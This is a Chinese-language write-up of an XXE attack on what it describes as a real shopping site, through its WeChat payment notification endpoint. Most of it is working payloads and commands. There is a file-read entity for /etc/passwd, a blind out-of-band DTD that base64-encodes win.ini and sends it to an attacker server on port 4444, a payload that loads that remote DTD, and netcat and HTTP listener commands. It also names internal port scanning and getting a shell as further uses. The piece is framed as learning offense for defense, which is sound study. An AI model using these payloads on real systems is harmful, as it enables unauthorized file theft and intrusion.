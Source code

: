 # 未知攻焉知防-xxe
原理:
XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。</br>
具体学习:https://xz.aliyun.com/t/3357#toc-12</br>
### 实战开始:
首先目标是一个商城网站,微信支付处存在xml传输 /plugin/payment/wechat/notify_url.php</br>
传入正常的xml进行探测:</br>
```
<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```
返回结果</br>
![1.jpg](https://i.loli.net/2019/06/10/5cfde5e3a34b031822.jpg)</br>

正常响应</br>
传入攻击payload读取文件</br>
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>

```
也是正常响应但无回显</br>
说明此处利用应该要用 Blind OOB XXE（使用Blind XXE漏洞来构建一条外带数据(OOB)通道来读取数据）</br>
准备一台远程服务器  上面编辑好dtd文件准备被目标连接读取</br>
dtd文件内容</br>
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:4444?p=%file;'>">
```
![2.jpg](https://i.loli.net/2019/06/10/5cfdde5d4a32b42833.jpg)</br>
对目标服务器进行xxe攻击</br>
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
![5cfde3e8869c320141.jpg.jpg](https://i.loli.net/2019/06/10/5cfde3e8869c320141.jpg)</br>
于此同时服务器开启80端口 和 监听4444端口</br>
命令如下</br>
```
nc -lvv 4444
ctrl z
bg
python -m SimpleHTTPServer 80
```
![6.jpg](https://i.loli.net/2019/06/10/5cfdde5d6b21058186.jpg)</br>
对目标发送请求，服务器收到回显</br>
![7.jpg](https://i.loli.net/2019/06/10/5cfddff85862528530.jpg)</br>
base64解码</br>
![4.jpg](https://i.loli.net/2019/06/10/5cfdde5d545e486392.jpg)</br>

xxe的危害不仅仅在于读取文件，另外还有内网主机探测,端口探测，若开启了某些协议甚至可在getshell
未完待续....
